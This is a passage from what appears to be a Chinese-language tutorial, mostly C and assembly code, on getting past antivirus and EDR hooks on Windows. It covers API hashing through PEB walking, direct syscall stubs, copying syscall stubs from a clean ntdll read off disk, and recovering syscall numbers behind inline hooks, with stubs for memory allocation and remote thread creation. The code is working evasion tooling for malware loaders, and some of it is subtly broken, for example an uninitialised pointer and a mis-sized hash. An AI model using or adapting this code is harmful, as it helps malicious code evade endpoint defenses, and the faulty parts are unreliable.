LIST_ENTRY InInitializationOrderModuleList;
PVOID BaseAddress;
PVOID EntryPoint;
ULONG SizeOfImage;
UNICODE_STRING FullDllName;
UNICODE_STRING BaseDllName;
ULONG Flags;
SHORT LoadCount;
SHORT TlsIndex;
LIST_ENTRY HashTableEntry;
ULONG TimeDateStamp;
} LDR_MODULE, * PLDR_MODULE;
typedef struct _PEB_LDR_DATA {
BYTE Reserved1[8];
PVOID Reserved2[3];
LIST_ENTRY InMemoryOrderModuleList;
} PEB_LDR_DATA, * PPEB_LDR_DATA;
typedef struct _RTL_USER_PROCESS_PARAMETERS {
ULONG MaximumLength;
ULONG Length;
ULONG Flags;
ULONG DebugFlags;
PVOID ConsoleHandle;
ULONG ConsoleFlags;
HANDLE StdInputHandle;
HANDLE StdOutputHandle;
HANDLE StdErrorHandle;
UNICODE_STRING CurrentDirectoryPath;
HANDLE CurrentDirectoryHandle;
UNICODE_STRING DllPath;
UNICODE_STRING ImagePathName;
UNICODE_STRING CommandLine;
PVOID Environment;
} RTL_USER_PROCESS_PARAMETERS, * PRTL_USER_PROCESS_PARAMETERS;
typedef struct _PEB {
BYTE Reserved1[2];
BYTE BeingDebugged;
BYTE Reserved2[1];
PVOID Reserved3[2];
PPEB_LDR_DATA Ldr;
PRTL_USER_PROCESS_PARAMETERS ProcessParameters;
BYTE Reserved4[104];
PVOID Reserved5[52];
PVOID PostProcessInitRoutine;
BYTE Reserved6[128];
PVOID Reserved7[1];
ULONG SessionId;
} PEB, * PPEB;
typedef struct _OBJECT_ATTRIBUTES {
ULONG Length;
HANDLE RootDirectory;
PUNICODE_STRING ObjectName;
ULONG Attributes;
PVOID SecurityDescriptor;
PVOID SecurityQualityOfService;
} OBJECT_ATTRIBUTES;
typedef OBJECT_ATTRIBUTES* POBJECT_ATTRIBUTES;
#define InitializeObjectAttributes( p, n, a, r, s ) { \
(p)->Length = sizeof( OBJECT_ATTRIBUTES ); \
(p)->RootDirectory = r; \
(p)->Attributes = a; \
(p)->ObjectName = n; \
(p)->SecurityDescriptor = s; \
(p)->SecurityQualityOfService = NULL; \
}
typedef struct _CLIENT_ID
{
PVOID UniqueProcess;
PVOID UniqueThread;
} CLIENT_ID, * PCLIENT_ID;
// NTAPI function types
typedef NTSTATUS(NTAPI* typeNtOpenProcess)(_Out_ PHANDLE ProcessHandle, _In_ ACCESS_MASK DesiredAccess, _In_ POBJECT_ATTRIBUTES ObjectAttributes, _In_opt_ PCLIENT_ID ClientId);
typedef NTSTATUS(NTAPI* typeNtAllocateVirtualMemory)(_In_ HANDLE ProcessHandle, _Inout_ PVOID* BaseAddress, _In_ ULONG_PTR ZeroBits, _Inout_ PSIZE_T RegionSize, _In_ ULONG AllocationType, _In_ ULONG Protect);
typedef NTSTATUS(NTAPI* typeNtProtectVirtualMemory)(_In_ HANDLE ProcessHandle, _Inout_ PVOID* BaseAddress, _Inout_ PSIZE_T NumberOfBytesToProtect, ULONG NewAccessProtection, PULONG OldAccessPRotection);
typedef NTSTATUS(NTAPI* typeNtWriteVirtualMemory)(_In_ HANDLE ProcessHandle, _In_ PVOID BaseAddress, _In_ PVOID Buffer, _In_ ULONG NumberOfBytesToWrite, _Out_ PULONG NumberOfBytesWritten OPTIONAL);
typedef NTSTATUS(NTAPI* typeNtClose)(_In_ HANDLE Handle);
主文件
#include <windows.h>
#include "typedefs.h"
#include <stdio.h>
#define HashStringA(x) HashStringFowlerNollVoVariant1aA(x)
#define HashStringW(x) HashStringFowlerNollVoVariant1aW(x)
#define HashStringNtdll 0x467f5122
#define HashNtCreateFile 0x20ef5396 //这里可以直接定义也可以HashStringA来计算，计算传入的必须是小写
ULONG HashStringFowlerNollVoVariant1aA(_In_ LPCSTR String)
{
ULONG Hash = 0x6A6CCC06;
while (*String)
{
Hash ^= (UCHAR)*String++;
Hash *= 0x25EDE3FB;
}
return Hash;
}
ULONG HashStringFowlerNollVoVariant1aW(_In_ LPCWSTR String)
{
ULONG Hash = 0x6A6CCC06;
while (*String)
{
Hash ^= (UCHAR)*String++;
Hash *= 0x25EDE3FB;
}
return Hash;
}
HMODULE _GetModuleHandle(_In_ ULONG dllHash)
{
PLIST_ENTRY head = (PLIST_ENTRY) & ((PPEB)__readgsqword(0x60))->Ldr->InMemoryOrderModuleList;
PLIST_ENTRY next = head->Flink;
PLDR_MODULE module = (PLDR_MODULE)((PBYTE)next - 16);
while (next != head)
{
module = (PLDR_MODULE)((PBYTE)next - 16);
if (module->BaseDllName.Buffer != NULL)
{
if (dllHash - HashStringW(module->BaseDllName.Buffer) == 0)
return (HMODULE)module->BaseAddress;
}
next = next->Flink;
}
return NULL;
}
FARPROC _GetProcAddress(_In_ HMODULE dllBase, _In_ ULONG funcHash)
{
PIMAGE_DOS_HEADER dos = (PIMAGE_DOS_HEADER)(dllBase);
PIMAGE_NT_HEADERS nt = (PIMAGE_NT_HEADERS)((PBYTE)dos + (dos)->e_lfanew);
PIMAGE_EXPORT_DIRECTORY exports = (PIMAGE_EXPORT_DIRECTORY)((PBYTE)dos + (nt)->OptionalHeader.DataDirectory[IMAGE_DIRECTORY_ENTRY_EXPORT].VirtualAddress);
if (exports->AddressOfNames != 0)
{
PWORD ordinals = (PWORD)((UINT_PTR)dllBase + exports->AddressOfNameOrdinals);
PDWORD names = (PDWORD)((UINT_PTR)dllBase + exports->AddressOfNames);
PDWORD functions = (PDWORD)((UINT_PTR)dllBase + exports->AddressOfFunctions);
for (DWORD i = 0; i < exports->NumberOfNames; i++) {
LPCSTR name = (LPCSTR)((UINT_PTR)dllBase + names[i]);
if (HashStringA(name) == funcHash) {
PBYTE function = (PBYTE)((UINT_PTR)dllBase + functions[ordinals[i]]);
return (FARPROC)function;
}
}
}
return NULL;
}
int main()
{
LPCSTR DLLNAME = "ntdll.dll";
LPCSTR funcname = "NtCreateFile";
ULONG A = HashStringA(DLLNAME); //HashString传入的参数必须是小写
ULONG B = HashStringA(funcname);
printf("A 0x%x\n", A);
printf("B 0x%x", B);
HMODULE dllBase1 = _GetModuleHandle(HashStringA(DLLNAME));
HMODULE dllBase2 = _GetModuleHandle(HashStringNtdll);
//HMODULE dllBase3 = _GetModuleHandle(HashStringNtdll1);
HMODULE dllBase4 = GetModuleHandleA("NTDLL.DLL");
if (dllBase1 == NULL)
{
printf("Unable to locate base address of 0x%x", dllBase1);
}
FARPROC addr = GetProcAddress(LoadLibraryA("ntdll"), "NtCreateFile");
FARPROC addr1 = _GetProcAddress(dllBase1, HashNtCreateFile);
//_GetProcAddress等同于GetProcAddress；_GetModuleHandle可以当LoadLibraryA来用
return 0;
}
手动底层syscall调用NT*函数绕hook
https://j00ru.vexillium.org/syscalls/nt/64/
这个方法是模拟了一个原函数的syscall过程然后对这个函数进行了更名，一定程度上可以绕过杀软的hook。
可以使用汇编语言编写目标函数的syscall过程，来实现一个功能相同但名称不同的避免被杀软hook的函数的方式。
本想实现创建进程，由于NTCreateProcess文档没有公开，所以按照教程来实现NtCreateFile函数。
首先找到NTCreateProcess的系统调用过程的汇编代码
可以调试一个调了NTDLL.dll的程序，找到函数的过程 
0:000> u NtCreateFile
ntdll!NtCreateFile:
00007ffb`3770f7e0 4c8bd1 mov r10,rcx
00007ffb`3770f7e3 b855000000 mov eax,55h
00007ffb`3770f7e8 f604250803fe7f01 test byte ptr [SharedUserData+0x308 (00000000`7ffe0308)],1
00007ffb`3770f7f0 7503 jne ntdll!NtCreateFile+0x15 (00007ffb`3770f7f5)
00007ffb`3770f7f2 0f05 syscall
00007ffb`3770f7f4 c3 ret
00007ffb`3770f7f5 cd2e int 2Eh
00007ffb`3770f7f7 c3 ret
精简一下，可以移除test和jne
.code
SysNtCreateFile proc
mov r10, rcx
mov eax, 55h
syscall
ret
SysNtCreateFile endp
end
找到NtCreateFile结构体并创建一个相同的SysNtCreateFile结构体，初始化变量，之后就可正常调用SysNtCreateFile
#include <Windows.h>
#include "winternl.h"
#pragma comment(lib, "ntdll")
EXTERN_C NTSTATUS SysNtCreateFile(
PHANDLE FileHandle,
ACCESS_MASK DesiredAccess,
POBJECT_ATTRIBUTES ObjectAttributes,
PIO_STATUS_BLOCK IoStatusBlock,
PLARGE_INTEGER AllocationSize,
ULONG FileAttributes,
ULONG ShareAccess,
ULONG CreateDisposition,
ULONG CreateOptions,
PVOID EaBuffer,
ULONG EaLength);
int main()
{
//FARPROC addr = GetProcAddress(LoadLibraryA("ntdll"), "NtCreateFile");
OBJECT_ATTRIBUTES oa;
HANDLE fileHandle = NULL;
NTSTATUS status = NULL;
UNICODE_STRING fileName;
IO_STATUS_BLOCK osb;
RtlInitUnicodeString(&fileName, (PCWSTR)L"\\??\\c:\\temp\\test.txt");
ZeroMemory(&osb, sizeof(IO_STATUS_BLOCK));
InitializeObjectAttributes(&oa, &fileName, OBJ_CASE_INSENSITIVE, NULL, NULL);
SysNtCreateFile(
&fileHandle,
FILE_GENERIC_WRITE,
&oa,
&osb,
0,
FILE_ATTRIBUTE_NORMAL,
FILE_SHARE_WRITE,
FILE_OVERWRITE_IF,
FILE_SYNCHRONOUS_IO_NONALERT,
NULL,
0);
return 0;
}
从ntdll.dll文件读取函数存根绕hook
这个方法是直接从磁盘读取了ntdll并复制了一份到内存中，然后在复制的ntdll中寻找函数的存根，通过修改函数的存根地址，来实现函数不通过原ntdll来实现调用。杀软hook我这份复制的ntdll之前，就已经完成了调用。
实现过程
1.读取C:\windows\system32\ntdll.dll文件，另存到内存中
2.从内存中读取指定函数的.rdata和.text部分
3.找到指定函数的存根存入内存中
4.将指定函数的系统调用存根指向新建的内存区域
5.调用指定函数，实际上调用的是复制出来的内存区域的系统调用存根，通过内存存根再去执行相应的底层调用，跟ntdll存根是一样的，避免了在内存中直接调用ntdll存根
#include <iostream>
#include "Windows.h"
#include "winternl.h"
#pragma comment(lib, "ntdll")
int const SYSCALL_STUB_SIZE = 23;
using myNtCreateFile = NTSTATUS(NTAPI*)(PHANDLE FileHandle, ACCESS_MASK DesiredAccess, POBJECT_ATTRIBUTES ObjectAttributes, PIO_STATUS_BLOCK IoStatusBlock, PLARGE_INTEGER AllocationSize, ULONG FileAttributes, ULONG ShareAccess, ULONG CreateDisposition, ULONG CreateOptions, PVOID EaBuffer, ULONG EaLength);
PVOID RVAtoRawOffset(DWORD_PTR RVA, PIMAGE_SECTION_HEADER section)
{
return (PVOID)(RVA - section->VirtualAddress + section->PointerToRawData);
}
BOOL GetSyscallStub(LPCSTR functionName, PIMAGE_EXPORT_DIRECTORY exportDirectory, LPVOID fileData, PIMAGE_SECTION_HEADER textSection, PIMAGE_SECTION_HEADER rdataSection, LPVOID syscallStub)
{
PDWORD addressOfNames = (PDWORD)RVAtoRawOffset((DWORD_PTR)fileData + *(&exportDirectory->AddressOfNames), rdataSection);
PDWORD addressOfFunctions = (PDWORD)RVAtoRawOffset((DWORD_PTR)fileData + *(&exportDirectory->AddressOfFunctions), rdataSection);
BOOL stubFound = FALSE;
for (size_t i = 0; i < exportDirectory->NumberOfNames; i++)
{
DWORD_PTR functionNameVA = (DWORD_PTR)RVAtoRawOffset((DWORD_PTR)fileData + addressOfNames[i], rdataSection);
DWORD_PTR functionVA = (DWORD_PTR)RVAtoRawOffset((DWORD_PTR)fileData + addressOfFunctions[i + 1], textSection);
LPCSTR functionNameResolved = (LPCSTR)functionNameVA;
if (std::strcmp(functionNameResolved, functionName) == 0)
{
std::memcpy(syscallStub, (LPVOID)functionVA, SYSCALL_STUB_SIZE);
stubFound = TRUE;
}
}
return stubFound;
}
int main(int argc, char* argv[]) {
char syscallStub[SYSCALL_STUB_SIZE] = {};
SIZE_T bytesWritten = 0;
DWORD oldProtection = 0;
HANDLE file = NULL;
DWORD fileSize = NULL;
DWORD bytesRead = NULL;
LPVOID fileData = NULL;
// variables for NtCreateFile
OBJECT_ATTRIBUTES oa;
HANDLE fileHandle = NULL;
NTSTATUS status = NULL;
UNICODE_STRING fileName;
RtlInitUnicodeString(&fileName, (PCWSTR)L"\\??\\c:\\temp\\pwn.log");
IO_STATUS_BLOCK osb;
ZeroMemory(&osb, sizeof(IO_STATUS_BLOCK));
InitializeObjectAttributes(&oa, &fileName, OBJ_CASE_INSENSITIVE, NULL, NULL);
// define NtCreateFile
myNtCreateFile NtCreateFile = (myNtCreateFile)(LPVOID)syscallStub;
VirtualProtect(syscallStub, SYSCALL_STUB_SIZE, PAGE_EXECUTE_READWRITE, &oldProtection);
file = CreateFileA("c:\\windows\\system32\\ntdll.dll", GENERIC_READ, FILE_SHARE_READ, NULL, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, NULL);
fileSize = GetFileSize(file, NULL);
fileData = HeapAlloc(GetProcessHeap(), 0, fileSize);
ReadFile(file, fileData, fileSize, &bytesRead, NULL);
PIMAGE_DOS_HEADER dosHeader = (PIMAGE_DOS_HEADER)fileData;
PIMAGE_NT_HEADERS imageNTHeaders = (PIMAGE_NT_HEADERS)((DWORD_PTR)fileData + dosHeader->e_lfanew);
DWORD exportDirRVA = imageNTHeaders->OptionalHeader.DataDirectory[IMAGE_DIRECTORY_ENTRY_EXPORT].VirtualAddress;
PIMAGE_SECTION_HEADER section = IMAGE_FIRST_SECTION(imageNTHeaders);
PIMAGE_SECTION_HEADER textSection = section;
PIMAGE_SECTION_HEADER rdataSection = section;
for (int i = 0; i < imageNTHeaders->FileHeader.NumberOfSections; i++)
{
if (std::strcmp((CHAR*)section->Name, (CHAR*)".rdata") == 0) {
rdataSection = section;
break;
}
section++;
}
PIMAGE_EXPORT_DIRECTORY exportDirectory = (PIMAGE_EXPORT_DIRECTORY)RVAtoRawOffset((DWORD_PTR)fileData + exportDirRVA, rdataSection);
GetSyscallStub("NtCreateFile", exportDirectory, fileData, textSection, rdataSection, syscallStub);
NtCreateFile(&fileHandle, FILE_GENERIC_WRITE, &oa, &osb, 0, FILE_ATTRIBUTE_NORMAL, FILE_SHARE_WRITE, FILE_OVERWRITE_IF, FILE_SYNCHRONOUS_IO_NONALERT, NULL, 0);
return 0;
}
手动syscall + ApiHash
#include <Windows.h>
#include <stdio.h>
#include <Rpc.h>
#include <winternl.h>
#include <Ip2string.h>
#pragma comment(lib, "ntdll")
#define NtCurrentProcess() ((HANDLE)-1)
#pragma comment(lib, "Rpcrt4.lib")
#ifndef NT_SUCCESS
#define NT_SUCCESS(Status) (((NTSTATUS)(Status)) >= 0)
#endif
#define UP -32
#define DOWN 32
EXTERN_C VOID GetSyscall(WORD systemCall);
EXTERN_C NTSTATUS sysZwAllocateVirtualMemory(
HANDLE ProcessHandle,
PVOID* BaseAddress,
ULONG_PTR ZeroBits,
PSIZE_T RegionSize,
ULONG AllocationType,
ULONG Protect
);
EXTERN_C NTSTATUS sysNtProtectVirtualMemory(
IN HANDLE ProcessHandle,
IN OUT PVOID* BaseAddress,
IN OUT PSIZE_T RegionSize,
IN ULONG NewProtect,
OUT PULONG OldProtect);
EXTERN_C NTSTATUS sysNtCreateThreadEx(
OUT PHANDLE hThread,
IN ACCESS_MASK DesiredAccess,
IN PVOID ObjectAttributes,
IN HANDLE ProcessHandle,
IN PVOID lpStartAddress,
IN PVOID lpParameter,
IN ULONG Flags,
IN SIZE_T StackZeroBits,
IN SIZE_T SizeOfStackCommit,
IN SIZE_T SizeOfStackReserve,
OUT PVOID lpBytesBuffer
);
EXTERN_C NTSTATUS sysNtWaitForSingleObject(
IN HANDLE Handle,
IN BOOLEAN Alertable,
IN PLARGE_INTEGER Timeout
);
struct LDR_MODULE {
LIST_ENTRY e[3];
HMODULE base;
void* entry;
UINT size;
UNICODE_STRING dllPath;
UNICODE_STRING dllname;
};
EXTERN_C VOID GetSyscall(WORD systemCall);
EXTERN_C VOID GetSyscallAddr(INT_PTR syscallAdr);
EXTERN_C NTSTATUS sysNtCreateFile(
PHANDLE FileHandle,
ACCESS_MASK DesiredAccess,
POBJECT_ATTRIBUTES ObjectAttributes,
PIO_STATUS_BLOCK IoStatusBlock,
PLARGE_INTEGER AllocationSize,
ULONG FileAttributes,
ULONG ShareAccess,
ULONG CreateDisposition,
ULONG CreateOptions,
PVOID EaBuffer,
ULONG EaLength
);
DWORD calcHash(char* data) {
DWORD hash = 0x99;
for (int i = 0; i < strlen(data); i++) {
hash += data[i] + (hash << 1);
}
return hash;
}
static DWORD calcHashModule(LDR_MODULE* mdll) {
char name[64];
size_t i = 0;
while (mdll->dllname.Buffer[i] && i < sizeof(name) - 1) {
name[i] = (char)mdll->dllname.Buffer[i];
i++;
}
name[i] = 0;
return calcHash((char*)CharLowerA(name));
}
static HMODULE getModule(DWORD myHash) {
HMODULE module;
INT_PTR peb = __readgsqword(0x60);
auto ldr = 0x18;
auto flink = 0x10;
auto Mldr = *(INT_PTR*)(peb + ldr);
auto M1flink = *(INT_PTR*)(Mldr + flink);
auto Mdl = (LDR_MODULE*)M1flink;
do {
Mdl = (LDR_MODULE*)Mdl->e[0].Flink;
if (Mdl->base != NULL) {
if (calcHashModule(Mdl) == myHash) {
break;
}
}
} while (M1flink != (INT_PTR)Mdl);
module = (HMODULE)Mdl->base;
return module;
}
static LPVOID getAPIAddr(HMODULE module, DWORD myHash) {
PIMAGE_DOS_HEADER DOSheader = (PIMAGE_DOS_HEADER)module;
PIMAGE_NT_HEADERS NTheader = (PIMAGE_NT_HEADERS)((LPBYTE)module + DOSheader->e_lfanew);
PIMAGE_EXPORT_DIRECTORY EXdir = (PIMAGE_EXPORT_DIRECTORY)(
(LPBYTE)module + NTheader->OptionalHeader.DataDirectory[IMAGE_DIRECTORY_ENTRY_EXPORT].VirtualAddress);
PDWORD fAddr = (PDWORD)((LPBYTE)module + EXdir->AddressOfFunctions);
PDWORD fNames = (PDWORD)((LPBYTE)module + EXdir->AddressOfNames);
PWORD fOrdinals = (PWORD)((LPBYTE)module + EXdir->AddressOfNameOrdinals);
for (DWORD i = 0; i < EXdir->AddressOfFunctions; i++) {
LPSTR pFuncName = (LPSTR)((LPBYTE)module + fNames[i]);
if (calcHash(pFuncName) == myHash) {
return (LPVOID)((LPBYTE)module + fAddr[fOrdinals[i]]);
}
}
return NULL;
}
WORD Unh00ksyscallNum(LPVOID addr) {
WORD syscall = NULL;
if (*((PBYTE)addr) == 0x4c
&& *((PBYTE)addr + 1) == 0x8b
&& *((PBYTE)addr + 2) == 0xd1
&& *((PBYTE)addr + 3) == 0xb8
&& *((PBYTE)addr + 6) == 0x00
&& *((PBYTE)addr + 7) == 0x00) {
BYTE high = *((PBYTE)addr + 5);
BYTE low = *((PBYTE)addr + 4);
syscall = (high << 8) | low;
return syscall;
}
if (*((PBYTE)addr) == 0xe9 || *((PBYTE)addr + 3) == 0xe9 || *((PBYTE)addr + 8) == 0xe9 ||
*((PBYTE)addr + 10) == 0xe9 || *((PBYTE)addr + 12) == 0xe9) {
for (WORD idx = 1; idx <= 500; idx++) {
if (*((PBYTE)addr + idx * DOWN) == 0x4c
&& *((PBYTE)addr + 1 + idx * DOWN) == 0x8b
&& *((PBYTE)addr + 2 + idx * DOWN) == 0xd1
&& *((PBYTE)addr + 3 + idx * DOWN) == 0xb8
&& *((PBYTE)addr + 6 + idx * DOWN) == 0x00
&& *((PBYTE)addr + 7 + idx * DOWN) == 0x00) {
BYTE high = *((PBYTE)addr + 5 + idx * DOWN);
BYTE low = *((PBYTE)addr + 4 + idx * DOWN);
syscall = (high << 8) | low - idx;
return syscall;
}
if (*((PBYTE)addr + idx * UP) == 0x4c
&& *((PBYTE)addr + 1 + idx * UP) == 0x8b
&& *((PBYTE)addr + 2 + idx * UP) == 0xd1
&& *((PBYTE)addr + 3 + idx * UP) == 0xb8
&& *((PBYTE)addr + 6 + idx * UP) == 0x00
&& *((PBYTE)addr + 7 + idx * UP) == 0x00) {
BYTE high = *((PBYTE)addr + 5 + idx * UP);
BYTE low = *((PBYTE)addr + 4 + idx * UP);
syscall = (high << 8) | low + idx;
return syscall;
}
}
}
}
INT_PTR Unh00ksyscallInstr(LPVOID addr) {
WORD syscall = NULL;
if (*((PBYTE)addr) == 0x4c
&& *((PBYTE)addr + 1) == 0x8b
&& *((PBYTE)addr + 2) == 0xd1
&& *((PBYTE)addr + 3) == 0xb8
&& *((PBYTE)addr + 6) == 0x00
&& *((PBYTE)addr + 7) == 0x00) {
return (INT_PTR)addr + 0x12; // syscall
}
if (*((PBYTE)addr) == 0xe9 || *((PBYTE)addr + 3) == 0xe9 || *((PBYTE)addr + 8) == 0xe9 ||
*((PBYTE)addr + 10) == 0xe9 || *((PBYTE)addr + 12) == 0xe9) {
for (WORD idx = 1; idx <= 500; idx++) {
if (*((PBYTE)addr + idx * DOWN) == 0x4c
&& *((PBYTE)addr + 1 + idx * DOWN) == 0x8b
&& *((PBYTE)addr + 2 + idx * DOWN) == 0xd1
&& *((PBYTE)addr + 3 + idx * DOWN) == 0xb8
&& *((PBYTE)addr + 6 + idx * DOWN) == 0x00
&& *((PBYTE)addr + 7 + idx * DOWN) == 0x00) {
return (INT_PTR)addr + 0x12;
}
if (*((PBYTE)addr + idx * UP) == 0x4c
&& *((PBYTE)addr + 1 + idx * UP) == 0x8b
&& *((PBYTE)addr + 2 + idx * UP) == 0xd1
&& *((PBYTE)addr + 3 + idx * UP) == 0xb8
&& *((PBYTE)addr + 6 + idx * UP) == 0x00
&& *((PBYTE)addr + 7 + idx * UP) == 0x00) {
return (INT_PTR)addr + 0x12;
}
}
}
}
int main()
{
//FARPROC addr = GetProcAddress(LoadLibraryA("ntdll"), "NtCreateFile");
//GetModuleHandle 用apihash获取ntdll.dll句柄
HMODULE dllBase1 = getModule(0x3E8557);
HMODULE dllBase2 = GetModuleHandleA("ntdll.dll");
//GetProcAddress 用apihash获取ZwAllocateVirtualMemory函数基址
LPVOID addr1 = getAPIAddr(dllBase1, 0x112da6be2b35);
LPVOID addr2 = GetProcAddress(dllBase2, "ZwAllocateVirtualMemory");
//获取ZwAllocateVirtualMemory函数的syscall的编号和syscall地址
LPVOID addr;
WORD syscallNum = Unh00ksyscallNum(addr);
INT_PTR syscallAddr = Unh00ksyscallInstr(addr);
//syscall
GetSyscall(syscallNum);
GetSyscallAddr(syscallAddr);
//syscall之后正常使用函数，需要在asm中实现syscall过程
PVOID BaseAddress = NULL;
SIZE_T dwSize = 0x2000;
NTSTATUS status1 = sysZwAllocateVirtualMemory(NtCurrentProcess(), &BaseAddress, 0, &dwSize, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
if (!NT_SUCCESS(status1)) {
return 0;
}
return 0;
}
.data
systemCall WORD 000h
syscallAddr QWORD 0h
.code
GetSyscall proc
mov systemCall, cx
ret
GetSyscall endp
GetSyscallAddr proc
mov syscallAddr, rcx
ret
GetSyscallAddr endp
sysZwAllocateVirtualMemory proc
mov r10, rcx
mov ax, systemCall
jmp qword ptr syscallAddr
ret
sysZwAllocateVirtualMemory endp
sysNtProtectVirtualMemory proc
mov r10, rcx
mov ax, systemCall
jmp qword ptr syscallAddr
ret
sysNtProtectVirtualMemory endp
sysNtCreateThreadEx proc
mov r10, rcx
mov ax, systemCall
jmp qword ptr syscallAddr
ret
sysNtCreateThreadEx endp
sysNtWaitForSingleObject proc
mov r10, rcx
mov ax, systemCall
jmp qword ptr syscallAddr
ret
sysNtWaitForSingleObject endp
end